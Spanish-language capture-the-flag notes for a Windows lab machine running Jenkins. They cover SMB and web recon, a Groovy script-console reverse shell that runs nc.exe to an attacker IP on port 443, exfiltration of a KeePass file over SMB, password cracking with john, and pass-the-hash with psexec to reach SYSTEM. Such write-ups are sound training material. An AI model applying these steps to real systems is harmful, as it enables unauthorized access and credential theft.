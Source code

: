 ## Summary

- IP -> 10.10.10.63
- Ports -> TCP (80,135,445,5000), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> 
    - 135 -> 
    - 445 ->
    - 5000 ->


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon 
- Comando -> **Whatweb < http:// IP Address>** = Microsoft IIS 10.0
- Comando -> **Whatweb < http:// IP Address> -v** Miramos las cabeceras de la pagina web
- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)
- Comando -> **crackmapexec smb {ip_targeted}** Para listar recursos compartidos de Windows
- Comando -> **smbclient -L < IP TARGET> -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
- Comando -> **smbmap -H** **{ip_targeted}** Herramienta elternativa para ver si nos reporta algo mas
- Comando -> **smbmap -H** **{ip_targeted} -u 'null'** Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)

Webpage -> < IP> and < IP:5000>

- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> < http:// URL:PORT/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	**/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Descubrimos una nuerva ruta. 
Ahora toca investigar Jenkins:
	Que es?
	Para que sirve?

El error en la web de Jenkins es que te salga la opcion: **Administrar Jenkins**
	- Ir a consola de Scripts
	- Puedes crear un script en Groovy (Groovy execute shell command)
		println "whoami".execute().text

- Comando -> **locate nc.exe**
- Comando -> **updatedb**


## User
Webpage 
	- Puedes crear un script en Groovy (Groovy execute shell command)
		- **println "\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443".execute().text** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443

- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **rlwrap nc -nlcp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows

nota: Si nos marca un error al moento de ejecutar la parte de la pagina web, debemos de escapar las barras agregando otra barra **\\**

- Comando-> **dir /r /s user.txt** Para buscar un archivo dentro de Windows, nos regresa la ruta en donde se encuentra

## Root

#### 1ra parte para convertirse en root:
En **C:\\Users\\kohsuke\\Documents** Encontramos un archivo con extencion **.kdbx** 

**copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers, y asi saber que es un keepass

- Comando -> **keepassxc CEH.kdbx** Nos permite abrir el archivo keepass teniendo la passwd, de lo contrario hacemos lo siguiente
- Comando -> **keepass2john CEH.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta
- Comando -> **john --wordlist=/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

Obtenemos otro hash pero de la herramienta Keepass, por lo que podriamos hacer un 'Pass the hash'
- Comando -> **crackmapexec smb < IP TARGET> -u <‘Administrator’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

Y seriamos nt authority\\System

ADS Alternate Data Strings 
	Comando -> **dir /r /s** Para listar informacion oculta
	Comando -> **more < hm.txt:root.txt** Miramos el contenido de un archivo oculto 


#### 2da parte para convertirse en root
1:29:00 Video para la segunda parte